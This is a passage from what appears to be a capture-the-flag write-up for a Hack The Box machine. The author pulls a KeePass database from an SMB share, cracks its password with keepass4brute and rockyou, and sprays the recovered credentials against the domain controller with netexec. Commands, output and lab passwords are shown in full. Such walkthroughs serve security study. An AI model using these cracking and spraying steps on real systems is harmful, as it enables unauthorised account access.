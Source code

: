 Great! Let's check that share.

```terminal
★]$ smbclient //10.129.190.60/DEV -U levi.james
Password for [WORKGROUP\levi.james]:                
Try "help" to get a list of possible commands.      
smb: \> ls                                          
  .                                  DR        0  Sun Mar 23 07:07:57 2025
  ..                                  D        0  Sat Mar  8 16:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 07:09:12 2025
  Projects                            D        0  Sat Mar  8 16:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 02:25:46 2025
                                                    
                5080575 blocks of size 4096. 1499224 blocks available
smb: \> get recovery.kdbx                       
```

We found a keepass db file, let's download it.

I tried using keepass2john to get a hash but didn't work.

Using this tool [keepass4brute](https://github.com/r3nt0n/keepass4brute/blob/master/keepass4brute.sh) we can crack the password protecting the file.

```terminal
─╼[★]$ ./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 93 - Estimated time remaining: 15 weeks, 2 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

We found the password, let's now read the file.

![keepass](2.png)

We managed to get the following credentials.

```terminal
jamie.william JamieLove2025!
adam.silver HJKL2025!
antony Antman2025!
steve.tucker Steve2025!
samuel.blake ILY2025!
```

Using netexec we can see which credential work.

```terminal
[★]$ nxc smb 10.129.190.60 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.129.190.60   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.190.60   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
SMB         10.129.190.60   445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.190.60   445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.190.60   445    DC               [-] PUPPY.HTB\steph.cooper:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.190.60   445    DC               [-] PUPPY.HTB\steph.cooper_adm:ILY2025! STATUS_LOGON_FAILURE 
```
